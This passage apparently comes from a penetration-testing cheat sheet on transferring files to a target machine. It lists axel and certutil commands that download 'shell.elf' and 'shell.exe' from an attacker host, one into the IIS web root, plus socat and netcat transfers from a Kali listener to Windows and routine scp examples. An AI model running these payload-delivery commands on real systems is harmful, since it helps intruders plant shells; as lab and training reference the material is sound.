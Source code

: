 	``` bash
	axel -a -n 20 -o /tmp/shell http://ip/shell.elf
	```

=== "certutil"

	``` bash
	certutil.exe -urlcache -f http://<url>/shell.exe C:\\inetpub\\wwwroot\\shell.exe
	```

## Socat

Kali machine

``` bash
sudo socat TCP4-LISTEN:443,fork file:shell.exe
```

Windows machine

``` bash
socat TCP4:ip:443 file:shell.exe,create
```

## Netcat

Kali machine

``` bash
nc -nvlp 4444 < /usr/share/windows-resources/binaries/wget.exe
```

Windows machine

``` bash
nc -nv ip 4444 > wget.exe
```

## SCP Command

[How to Use SCP Command to Securely Transfer Files](https://linuxize.com/post/how-to-use-scp-command-to-securely-transfer-files/)

``` bash
scp [OPTION] [user@]SRC_HOST:]file1 [user@]DEST_HOST:]file2
```

To copy a file from a local to a remote system run the following command:

``` bash
scp -P 2322 file.txt remote_username@10.10.0.2:/remote/directory/newfilename.txt
```

To copy a directory from a local to remote system, use the -r option:

``` bash
scp -r /local/directory remote_username@10.10.0.2:/remote/directory
```

``` bash
scp remote_username@10.10.0.2:/remote/file.txt /local/directory
```

